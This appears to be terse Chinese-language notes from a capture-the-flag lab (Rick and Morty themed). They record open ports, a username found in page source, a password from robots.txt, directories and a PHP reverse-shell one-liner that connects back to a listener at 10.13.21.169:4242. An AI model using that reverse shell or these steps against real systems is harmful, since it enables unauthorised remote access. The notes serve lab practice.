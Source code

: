 #开启服务
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))


#网页源代码信息
Note to self, remember username!

Username: R1ckRul3s


#目录爆破
1，assets
2, robots.txt---->   Wubbalubbadubdub   Wubba lubba dub dub
在Rick and Morty中Rick有一句口头禅“Wubba lubba dub dub”，在鸟人语言里，这是“我很痛苦，请救救我”的意思
3,login.php 登录页面

#clue.txt
Look around the file system for the other ingredient.

#其他文件夹
backups
cache
crash
lib
local
lock
log
mail
opt
run
snap
spool
tmp
www

#交互shell
php -r '$sock=fsockopen("10.13.21.169",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'


cat "second ingredients"